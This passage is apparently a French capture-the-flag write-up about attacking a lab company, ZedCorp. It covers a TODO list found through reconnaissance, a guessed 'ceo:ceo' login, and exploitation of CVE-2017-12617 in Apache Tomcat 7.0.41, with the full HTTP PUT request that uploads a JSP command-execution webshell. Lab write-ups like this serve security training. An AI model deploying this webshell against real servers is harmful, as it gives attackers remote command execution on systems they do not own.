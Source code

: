 Nous n'avons pas d'identifiants pour les accès SSH et FTP, le service AJP du serveur **project-server** (`10.0.0.2`) est authentifié et les comptes par défaut ont été modifiés, et le service Web du serveur **admin-server** (`10.0.0.3`) est protégé par une Basic-Auth.

Il ne nous reste plus que le Tomcat : http://10.0.0.2:8080/

## OSINT et fausses pistes

Le serveur Tomcat nous donne accès à la TODO-list de _ZedCorp_ :

{{< img alt="TODO-list ZedCorp" src="/media/2019/04/9d417b0cb15a89426450957da034b3eb.png" >}}

Dans la liste des choses à faire, nous notons que le formulaire d'authentification du serveur d'administration présente un bug. En effet, la page http://10.0.0.3/index.php renvoyait, en plus de l'erreur 401, le formulaire d'authentification du site.

Après avoir testé, sans succés, les injections en tout genre, je me décide à chercher plus d'informations sur la TODO-list. Nous pouvons voir que la session **CEO** est en train de recevoir de nouvelles fonctionnalités. On ne sait jamais, sur un malentendu ...

Hop, `ceo:ceo` et nous sommes authentifié ! Mais nous obtenons le message _"ERROR: CEO session is currently deactivated for maintenance"_.

Autre information sur la TODO-list : il est mentionné la mise en place de backup FTP, et effectivement le compte **backup** existe sur le service FTP du serveur d'administration.

> Après avoir passé pas mal de temps sur ce formulaire, je me décide à aller voir l'auteur du challenge qui m'informe que le comportement du formulaire d'authentification n'était pas intentionnel.

## RCE Tomcat

Les pages d'erreur obtenue sur le serveur Tomcat nous divulguent sur la version : **Apache Tomcat 7.0.41**. Une petite recherche rapide sur Internet nous informe que cette version est vulnérable à la [**CVE-2017-12617**](https://www.cvedetails.com/cve-details.php?t=1&cve_id=CVE-2017-12617) si jamais la méthode PUT est acceptée ... Et elle l'est. Nous poussons donc notre Webshell JSP sur le serveur :

{{< code lang="http" >}}
PUT /rookie.jsp/ HTTP/1.1
Host: 10.0.0.2:8080
Accept-Encoding: gzip, deflate
Accept: */*
Connection: close
Content-Length: 463

<%@ page import="java.util.*,java.io.*" %>
<%
String cmd = request.getParameter("cmd");
String output = "";
if(cmd != null) {
    String s = null;
    try {
        Process p = Runtime.getRuntime().exec(cmd,null,null);
        BufferedReader sI = new BufferedReader(new
        InputStreamReader(p.getInputStream()));
        while((s = sI.readLine()) != null) { output += s+"\n"; }
    } catch(IOException e) { e.printStackTrace(); }
}
%>
<pre><%=output %></pre>
{{< /code >}}
